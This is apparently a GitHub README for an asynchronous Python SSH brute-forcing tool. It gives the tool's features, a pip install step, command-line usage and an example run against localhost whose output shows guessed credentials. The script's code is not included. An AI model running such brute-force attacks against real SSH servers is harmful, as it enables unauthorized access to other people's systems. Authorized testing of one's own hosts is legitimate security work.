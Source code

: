 ## 🚀 Asynchronous SSH Brute Forcer

A high-performance, asynchronous SSH brute-forcing tool written in Python. Leveraging `asyncio` and `asyncssh`, this script attempts multiple username/password combinations concurrently..

---

## 📝 Features

- **Asynchronous Execution:** Built on `asyncio` and `asyncssh`.
- **Configurable Concurrency:** Limit the number of simultaneous SSH connections with Semaphore.
- **Wordlist Support:** Accepts separate user and password lists.
- **Result Summary:** Collects and displays all successful login combinations.
- **Stop On Success Option:** If set, the program will stop brute forcing when a valid credential combination is found

---

## ⚙️ Requirements

- Python 3.11+
- `asyncssh` library

```bash
pip install asyncssh
````

---

## 📚 Usage

```
usage: ssh_brute_forcer.py [-h] -i IP [-t TASKS] -u USER_LIST -p PASSWORD_LIST [-P PORT]

options:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 address of the target host
  -t TASKS, --tasks TASKS
                        Maximum number of tasks at once.
  -u USER_LIST, --user-list USER_LIST
                        User list.
  -p PASSWORD_LIST, --password-list PASSWORD_LIST
                        Password list.
  -P PORT, --port PORT  Alternative SSH port.
```

## 🌟 Example

```bash
python3 ssh_brute_forcer.py -i 127.0.0.1 -u users.txt -p passwords.txt -t 4 --stop-on-success
[-] Incorrect login: hidalgo:Contraseña1234
[-] Incorrect login: hidalgo:hola123
[-] Incorrect login: hidalgo:adios9999
[-] Incorrect login: arthur:adios9999
[-] Incorrect login: arthur:hola123
[-] Incorrect login: arthur:Contraseña1234
[+] Succesful login: ernest:hola123
Exiting...
[+] Correct logins:
ernest:hola123
All done in 5.73 seconds!
Valid credentials found!
```


